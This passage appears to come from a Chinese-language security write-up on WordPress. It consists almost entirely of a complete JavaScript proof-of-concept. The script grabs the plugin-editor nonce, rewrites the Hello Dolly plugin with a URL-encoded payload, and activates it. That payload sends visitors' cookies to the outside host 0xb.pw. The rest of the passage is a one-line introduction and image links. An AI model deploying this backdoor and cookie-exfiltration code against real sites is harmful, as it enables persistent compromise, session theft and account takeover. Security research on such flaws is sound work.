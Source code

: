 这里我就不做深究了，完整的写入poc如下
```
// 写入后门
url = window.location.href;
url = url.split('wp-admin')[0];
p = 'wp-admin/plugin-editor.php?';
q = 'file=hello.php';
s = '%3C%3Fphp%0A%2f%2a%0APlugin%20Name%3A%20Hello%20Dolly%0AVersion%3A%201.6%0A%2a%2f%0A%3F%3E%0A%3Cscript%3E%0Avar%20d%20%3D%20new%20XMLHttpRequest%28%29%3B%20%0Ad.open%28%27POST%27%2C%20%27http%3A%2f%2f0xb.pw%27%2C%20true%29%3B%20%0Ad.setRequestHeader%28%22Content-type%22%2C%22application%2fx-www-form-urlencoded%22%29%3B%0Ad.send%28%27cookie%3D%3C%3Fphp%20echo%20urlencode%28implode%28%27%23%27%2C%20%24_COOKIE%29%29%3F%3E%27%29%3B%0A%3C%2fscript%3E';

a = new XMLHttpRequest();
a.open('GET', url+p+q, 0);
a.send();

ss = '_wpnonce=' + /nonce" value="([^"]*?)"/.exec(a.responseText)[1] +
'&newcontent=' + s + '&action=update&file=hello.php';

b = new XMLHttpRequest();
b.open('POST', url+p+q, 1);
b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
b.send(ss);

// 开启插件
b.onreadystatechange = function(){
	if (this.readyState == 4) {
		// 解开启插件的请求回来
		c = new XMLHttpRequest();
		c.open('GET', url+'wp-admin/plugins.php', 0);
		c.send();

		sss = /(data-plugin="hello.php)[\w\s"\'<>=\-选择你好多莉\/[\].?&;]+/.exec(c.responseText);
		sss = /plugins.php([\w.?=&;]+)/.exec(sss)[0];
		sss = sss.replace(/&amp;/gi, '&')
		
		// 开启插件
		d = new XMLHttpRequest();
		d.open('GET', url+'wp-admin/'+sss, 0);
		d.send();

		// 跳回首页
		setTimeout('location.href='+url+'wp-admin/',2000);
   }
}
```

![image.png-39.8kB][9]

![image.png-25.1kB][10]


  [1]: http://static.zybuluo.com/LoRexxar/5gqfedhw93m0l2o493dgst32/image.png
  [2]: http://static.zybuluo.com/LoRexxar/kww6v2ictpq6lddemh75jx3z/image.png
  [3]: http://static.zybuluo.com/LoRexxar/ove34bas780053hiabnb2ts8/image.png
  [4]: http://static.zybuluo.com/LoRexxar/o7s4w1t1woqsd80ywkl12sye/image.png
  [5]: http://static.zybuluo.com/LoRexxar/34ryqtulidaxi6r19rstgmrt/image.png
  [6]: http://static.zybuluo.com/LoRexxar/1w7njuxjgsdzutarkk9b7n4b/image.png
  [7]: http://static.zybuluo.com/LoRexxar/lrpbjdj87ac4l1b0v4iwk27v/image.png
  [8]: http://static.zybuluo.com/LoRexxar/y240zcqh29dtqe84zwfyb4ya/image.png
  [9]: http://static.zybuluo.com/LoRexxar/s0h4cv5ir3z9ytdkn4rw69r9/image.png
  [10]: http://static.zybuluo.com/LoRexxar/t74hbh21xgwstf6rmehftm01/image.png
  [11]: http://static.zybuluo.com/LoRexxar/k6fp1b0qibh5a7j7r442oeu4/image.png
  [12]: http://static.zybuluo.com/LoRexxar/ku5sh6qlu6ygb4v3v8mm1wxy/image.png
  [13]: http://static.zybuluo.com/LoRexxar/o6sgylp105ljwhiqc8b88goa/image.png